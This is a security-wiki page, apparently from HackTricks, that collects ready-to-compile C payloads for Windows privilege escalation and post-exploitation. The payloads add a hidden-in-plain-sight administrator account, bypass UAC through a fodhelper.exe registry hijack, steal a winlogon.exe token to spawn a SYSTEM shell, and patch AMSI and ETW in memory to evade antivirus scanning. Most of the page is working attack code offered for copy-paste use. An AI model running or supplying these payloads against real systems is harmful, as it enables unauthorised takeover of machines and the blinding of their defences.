 # Windows C Payloads

{{#include ../../banners/hacktricks-training.md}}

This page collects **small, self-contained C snippets** that are handy during Windows Local Privilege Escalation or post-exploitation.  Each payload is designed to be **copy-paste friendly**, requires only the Windows API / C runtime, and can be compiled with `i686-w64-mingw32-gcc` (x86) or `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  These payloads assume that the process already has the minimum privileges necessary to perform the action (e.g. `SeDebugPrivilege`, `SeImpersonatePrivilege`, or medium-integrity context for a UAC bypass).  They are intended for **red-team or CTF settings** where exploiting a vulnerability has landed arbitrary native code execution.

---

## Add local administrator user

```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```

---

## UAC Bypass – `fodhelper.exe` Registry Hijack (Medium → High integrity)
When the trusted binary **`fodhelper.exe`** is executed, it queries the registry path below **without filtering the `DelegateExecute` verb**.  By planting our command under that key an attacker can bypass UAC *without* dropping a file to disk.

*Registry path queried by `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
A minimal PoC that pops an elevated `cmd.exe`:

```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
    HKEY hKey;
    const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

    // 1. Create the vulnerable registry key
    if (RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
        KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

        // 2. Set default value => our payload
        RegSetValueExA(hKey, NULL, 0, REG_SZ,
            (const BYTE*)payload, (DWORD)strlen(payload) + 1);

        // 3. Empty "DelegateExecute" value = trigger (")
        RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
            (const BYTE*)"", 1);

        RegCloseKey(hKey);

        // 4. Launch auto-elevated binary
        system("fodhelper.exe");
    }
    return 0;
}
```
*Tested on Windows 10 22H2 and Windows 11 23H2 (July 2025 patches). The bypass still works because Microsoft has not fixed the missing integrity check in the `DelegateExecute` path.*

---

## Spawn SYSTEM shell via token duplication (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
If the current process holds **both** `SeDebug` and `SeImpersonate` privileges (typical for many service accounts), you can steal the token from `winlogon.exe`, duplicate it, and start an elevated process:

```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
    PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snap == INVALID_HANDLE_VALUE) return 0;
    if (!Process32FirstW(snap, &pe)) return 0;
    do {
        if (!_wcsicmp(pe.szExeFile, name)) {
            DWORD pid = pe.th32ProcessID;
            CloseHandle(snap);
            return pid;
        }
    } while (Process32NextW(snap, &pe));
    CloseHandle(snap);
    return 0;
}

int wmain(void) {
    DWORD pid = FindPid(L"winlogon.exe");
    if (!pid) return 1;

    HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    HANDLE hToken  = NULL, dupToken = NULL;

    if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
        DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

        STARTUPINFOW si = { .cb = sizeof(si) };
        PROCESS_INFORMATION pi = { 0 };
        if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
                L"C\\\Windows\\\System32\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
                NULL, NULL, &si, &pi)) {
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
    }
    if (hProc) CloseHandle(hProc);
    if (hToken) CloseHandle(hToken);
    if (dupToken) CloseHandle(dupToken);
    return 0;
}
```
For a deeper explanation of how that works see:


{{#ref}}
sedebug-+-seimpersonate-copy-token.md
{{#endref}}

---

## In-Memory AMSI & ETW Patch (Defence Evasion)
Most modern AV/EDR engines rely on **AMSI** and **ETW** to inspect malicious behaviours.  Patching both interfaces early inside the current process prevents script-based payloads (e.g. PowerShell, JScript) from being scanned.

```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
    DWORD oldProt;
    // mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
    BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
    memcpy(address, patch, sizeof(patch));
    VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
    HMODULE amsi  = LoadLibraryA("amsi.dll");
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");

    if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
    if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

    MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
    return 0;
}
```
*The patch above is process-local; spawning a new PowerShell after running it will execute without AMSI/ETW inspection.*

---

## References
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)

{{#include ../../banners/hacktricks-training.md}}
